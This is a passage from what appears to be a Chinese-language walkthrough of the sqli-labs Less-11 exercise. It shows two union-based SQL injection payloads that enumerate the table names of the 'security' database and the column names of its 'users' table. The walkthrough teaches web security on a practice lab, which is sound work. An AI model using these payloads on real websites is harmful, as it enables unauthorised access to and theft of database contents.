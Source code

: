 

+ 注入如下语句爆破数据表

~~~ shell
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'security'#
~~~

![Less-11_6](./img/Less-11_6.PNG)



+ 注入语句爆破字段

~~~ shell
1' union select 1,group_concat(column_name) from information_schema.columns where table_name = 'users'#
~~~
